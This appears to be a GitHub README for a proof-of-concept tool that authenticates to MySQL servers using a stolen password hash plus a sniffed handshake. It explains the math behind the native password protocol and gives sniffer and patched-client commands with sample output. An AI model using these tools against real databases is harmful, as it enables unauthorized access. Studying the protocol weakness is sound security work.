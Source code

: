 mysql-unsha1
============

Authenticate against a MySQL server without knowing the cleartext password.

Abstract
--------

This PoC shows how it is possible to authenticate against a MySQL server under
certain circumstances without knowing the cleartext password when the [Secure
Password Authentication] authentication plugin (aka `mysql_native_password`, the
default method) is used.

Preconditions are:

- to obtain a read-only access to the `mysql.user` table in the target database
  in order to fetch the hashed password for a given user;

- to be able to intercept a successful authentication handshake performed by the
  aforementioned user (i.e., [authentication via SSL] would nullify this
  attempt).

**Note:** This is not a bug nor a vulnerability in MySQL (this is hardly an
*exploit* actually), it is just a direct consequence of how the authentication
protocol works. If an attacker is able to satisfy the above points then the
whole system is probably already compromised. Yet this exploit may offer an
alternative approach to obtain a proper authenticated access to a MySQL server.

MySQL server passwords
----------------------

By default, passwords are stored in the `mysql.user` table and are hashed using
the `PASSWORD` function which is just a two-stage SHA1 digest:

```
mysql> SELECT DISTINCT password FROM mysql.user WHERE user = 'root';
*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19

mysql> SELECT PASSWORD('password');
*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19

mysql> SELECT SHA1(UNHEX(SHA1('password')));
2470c0c06dee42fd1618bb99005adca2ec9d1e19
```

The handshake
-------------

After the TCP connection phase, initiated by the client, the MySQL
authentication [handshake] continues as follows (simplified):

1. the server sends a `Server Greeting` packet containing a *salt* (`s`);

2. the client replies with a `Login Request` packet containing the session
   password (`x`), computed as follows:

        x := SHA1(password) XOR SHA1(s + SHA1(SHA1(password)))

    where `password` is the cleartext password as provided by the user and `+`
    is a mere string concatenation operator;

3. the server can verify the *challenge* and authenticate the client if:

        SHA1(x XOR SHA1(s + SHA1(SHA1(password)))) = SHA1(SHA1(password))

The exploit
-----------

With enough information an attacker is able to obtain `SHA1(password)` and
therefore to solve the server challenge without the knowledge of the cleartext
password.

Let:

- `h` be the hashed password obtained from the `mysql.user` table (i.e.,
  `SHA1(SHA1(password))`);

- `s` and `x` be the salt and the session password respectively obtained from
   the intercepted handshake.

The first-stage SHA1 can be obtained as follows:

    SHA1(password) = x XOR SHA1(s + h)

Tools
-----

To ease the reproducibility of the exploit, this PoC provides two tools:

- a simple sniffer to extract and check the handshake information either live or
  offline from a PCAP file;

- a patch for MySQL client which allows to treat the prompted passwords as SHA1
  digests instead of cleartexts.

### The sniffer

To build `mysql-unsha1-sniff` just run `make` (or `make static` to produce a
statically linked executable). The Makefile will look for the `uthash.h` file in
this directory and will download it if not found.

Run `mysql-unsha1-sniff` without arguments to display the usage message.

In accordance with the previous example:

    sudo ./mysql-unsha1-sniff -i lo 127.0.0.1 3306 2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19:root

Once a successful authentication handshake is captured the output will be like:

    [+] Input:
    [+] - username ........................ 'root'
    [+] - salt ............................ 3274756c42415d3429717e482a3776704d706b49
    [+] - client session password ......... 6d45a453b989ad0ff0c84daf623e9870f129c329
    [+] - SHA1(SHA1(password)) ............ 2470c0c06dee42fd1618bb99005adca2ec9d1e19
    [+] Output:
    [+] - SHA1(password) .................. 5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8
    [+] Check:
    [+] - computed SHA1(SHA1(password)) ... 2470c0c06dee42fd1618bb99005adca2ec9d1e19
    [+] - authentication status ........... OK

If no account information are provided, the tool will only display the salt and
the session password.

### The patched MySQL client

Building the MySQL client may take some time and requires a certain amount of
free disk space:

1. download and extract the MySQL source code:

        wget https://github.com/mysql/mysql-server/archive/mysql-5.7.17.tar.gz
        tar xf mysql-5.7.17.tar.gz
        cd mysql-server-mysql-5.7.17

2. apply the patch:

        patch -p1 </path/to/mysql-server-unsha1.patch

3. build (without server) with:

        mkdir build
        cd build
        cmake -DDOWNLOAD_BOOST=1 -DWITH_BOOST=boost -DWITHOUT_SERVER:BOOL=ON ..
        make -j$(nproc)

4. the client executable will be created at `client/mysql`, optionally install
   it globally and delete the whole source code to save some space:

        sudo cp client/mysql /usr/local/bin/mysql-unsha1
        cd ../..
        rm -fr mysql-server-mysql-5.7.17

Use `mysql-unsha1` as the original MySQL client, just remember that the
`--password[=password], -p[password]` option now requires a 40-digit hexadecimal
SHA1 string.

In accordance with the previous example:

    mysql-unsha1 -h 127.0.0.1 -P 3306 -u root --password=5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8

Where:

```
mysql> SELECT SHA1(UNHEX('5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8'));
2470c0c06dee42fd1618bb99005adca2ec9d1e19
```

and `2470c0c06dee42fd1618bb99005adca2ec9d1e19` is the hashed password stored in
the `mysql.user` table.

[Secure Password Authentication]: https://dev.mysql.com/doc/internals/en/secure-password-authentication.html
[authentication via SSL]: https://dev.mysql.com/doc/internals/en/ssl.html
[handshake]: https://dev.mysql.com/doc/internals/en/plain-handshake.html
